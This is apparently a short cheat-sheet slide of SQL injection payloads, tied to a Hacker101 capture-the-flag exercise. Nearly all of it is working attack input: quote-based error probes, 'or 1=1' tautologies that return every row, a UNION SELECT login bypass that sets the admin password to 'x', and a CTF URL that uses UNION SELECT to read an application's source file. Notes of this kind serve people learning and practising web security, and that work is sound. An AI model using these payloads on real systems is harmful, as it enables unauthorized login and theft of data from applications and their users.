

# SQL Injection Payloads
Check for errors/SQLi with
' // Error
'# // Removes error
' or 1=1# // Returns all values for query

1 or 1=1 // returns all values for query

// This makes the password x for when you try to log in with admin with the password 'x'
username=admin' union select 'x' as password;#
password=x

// CTF hint contained: uwsgi-nginx-flask-docker image
https://1a232c644bde80b9ad4af76be42849f1.ctf.hacker101.com/fetch?id=-1 union select 'main.py'